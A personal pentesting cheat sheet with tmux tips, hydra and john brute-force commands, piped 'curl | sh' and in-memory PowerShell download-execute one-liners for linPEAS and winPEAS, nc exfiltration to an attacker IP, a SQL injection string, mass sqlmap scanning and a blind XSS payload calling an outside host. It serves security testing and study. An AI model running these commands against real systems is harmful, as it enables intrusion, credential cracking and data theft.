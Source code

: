 ```yaml
---
layout: single
classes: #wide
title: "General Info"
sidebar:
    title: "General Info"
    nav: infosec
collection: infopages
permalink: /infosec/general/
toc: true
toc_sticky: true
author_profile: true
---
```


# Welcome
Hi, this page is because I can't for the life of me remember my options when I am trying to web-test.  

# General tips
flask -> usually jinja2  
```2> /dev/null``` - hides error output  

# Tmux
re-attach session:  
`tmux a`  
Attach file session:  
`tmux -S <name>`   
Rename session:  
`prefix + $`    
Pane -> Window:
`prefix + !`  
Move pane left/right:  
`prefix + { or }`
Save / restore:  
`prefix + s / r`

# Brute-Force
ffuf  
cme - SMB brute force tool  

John the ripper - cracking tool
* `john  --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt jonah.txt`

hydra:  
```
hydra -l usr -P pass.txt ssh://www.example.com  
hydra -l jennifer -P /usr/share/wordlists/rockyou.txt builder -s 8080 http-post-form "/login:j_username=jennifer&j_password=^PASS^&from=&Submit=:Invalid username or password"
```

# Listeners
wireshark - self explanitory  
nc - net cat is a good listner
* Example usage: nc -lvnp 

# Wordlists
/usr/share/wordlists/  
* /seclists

# Network 
```python http.server``` - v3 python  
* Spawns python server

netexec:  
* Network service exploitation tool
* Helps automate assessing large networks


# Linpeas & Winpeas
[Linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS):  
`curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh `  
`python -c "import urllib.request; urllib.request.urlretrieve('https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh', 'linpeas.sh')" `  

filter to host machine:  
`nc -lvnp 9002 | tee linpeas.out` # host  
`curl $ip:8000/linpeas.sh | sh | nc $ip 9002` # victim  


[Winpeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS):  
url =   
`$url = "https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany_ofs.exe" `  
One liner to download and execute winPEASany from memory in a PS shell  
`$wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany_ofs.exe" -UseBasicParsing | Select-Object -ExpandProperty Content)); [winPEAS.Program]::Main("") `

## LINPEAS VIEWING
`less -r <outputfile>` - color codes everythign properly

# Other
Pspy - inspect application  
`powershell -c` - allows for powershell command    
Exiftool - analyzing metadata


# Refrance links 
tbd

# SQL
`' or 1=1 -- -`  

## SQL Map
`sqlmap -r request.txt --dbms=<db> --dump`
- dumps off request to site, attempts to do a sqli

# SSH
`chmod 600 <key>`
`ssh -L <port>:website:80 <user>@myserver`  
- port forwarding, allowing access to website from myserver  
`ssh -R <port>:website:80 <user>@myserver`  
- reverse forwarding, allowing others to view your traffic


# Sockets
`ss -tulpn` (tcp, udp, listenting only, process using socket, dont respolve service names)  
 

# Post exploit
Exiftool - analyzing meta data
look for weird configs  
linpeas.sh big

1. `curl $ip:1111/linpeas.sh`
1. `find / -perm -u=s -type f 2>/dev/null` - suid bit finder


# One liners

Sqlmap from wayback:   
`waybackurls target | grep -E '\bhttps?://\S+?=\S+' | grep -E '\.php|\.asp' | sort -u | sed 's/\(=[^&]*\)/=/g' | tee urls.txt | sort -u -o urls.txt && cat urls.txt | xargs -I{} sqlmap --technique=T --batch -u "{}"`  

XSS from wayback:  
`echo "testphp.vulnweb.com" | waybackurls | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|icon|pdf|svg|txt|js)" | urldedupe -s | grep -IE "[?].*[&]?" | grep "=" | unew -p | pvreplace '<sCript>confirm(1)</sCript>, <script>confirm(1)</script>' | xsschecker -match '<sCript>confirm(1)</sCript>, <script>confirm(1)</script>' -vuln`  

XSS in x-forward header:  
`findomain -t http://TARGET.COM | gau | bxss -payload '"><script src=https://chirag.bxss.in></script>' -header "X-Forwarded-For"`  